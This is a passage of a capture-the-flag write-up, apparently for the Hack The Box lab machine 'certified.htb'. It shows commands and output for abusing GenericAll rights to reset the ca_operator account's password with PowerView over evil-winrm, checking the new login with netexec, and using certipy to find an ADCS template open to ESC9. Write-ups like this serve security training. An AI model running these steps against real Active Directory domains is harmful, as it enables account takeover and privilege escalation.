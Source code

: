 the user `management_svc` have `GenericAll` rights on the `ca_operator` and from its name it seems to be a user who have something to do with ADCS

with `GenericAll` rights we can change `ca_operator`'s password

## Change `ca_operator`'s password
in our evil-winrm session:
```bash
*Evil-WinRM* PS C:\Users\management_svc\Documents> $UserPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\management_svc\Documents> . ./powerview.ps1

*Evil-WinRM* PS C:\Users\management_svc\Documents> Set-DomainUserPassword -Identity ca_operator -AccountPassword $UserPassword 
```

now `ca_operator` have the password `password123`
verify with:

```bash
netexec smb 10.10.11.41 -u 'ca_operator' -p password123

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:password123 
```

## Exploiting template configurations

since we are in an ADCS environment it make sense to use certipy
```bash
certipy find -u ca_operator@certified.htb -p password123 -dc-ip 10.10.11.41 -stdout -vulnerable -debug

```

output:

```
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA

....

    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

indeed the template `CertifiedAuthentication` is vulnerable to `ESC9` 
